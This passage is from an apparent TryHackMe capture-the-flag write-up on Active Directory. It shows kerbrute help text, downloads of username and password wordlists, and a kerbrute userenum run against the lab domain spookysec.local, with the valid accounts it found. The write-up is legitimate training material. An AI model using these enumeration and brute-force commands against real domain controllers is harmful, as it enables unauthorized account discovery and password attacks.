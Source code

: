 ```
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

`userenum`

2. What notable account is discovered? (These should jump out at you)

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
--2020-10-17 11:08:02--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 744407 (727K) [text/plain]
Saving to: ‘userlist.txt’

userlist.txt                                     100%[=======================================================================================================>] 726.96K   456KB/s    in 1.6s

2020-10-17 11:08:04 (456 KB/s) - ‘userlist.txt’ saved [744407/744407]

bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
--2020-10-17 11:08:13--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 569236 (556K) [text/plain]
Saving to: ‘passwordlist.txt’

passwordlist.txt                                 100%[=======================================================================================================>] 555.89K  2.24MB/s    in 0.2s

2020-10-17 11:08:13 (2.24 MB/s) - ‘passwordlist.txt’ saved [569236/569236]

bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 10/17/20 - Ronnie Flathers @ropnop

2020/10/17 11:08:19 >  Using KDC(s):
2020/10/17 11:08:19 >   spookysec.local:88

2020/10/17 11:08:20 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       robin@spookysec.local
```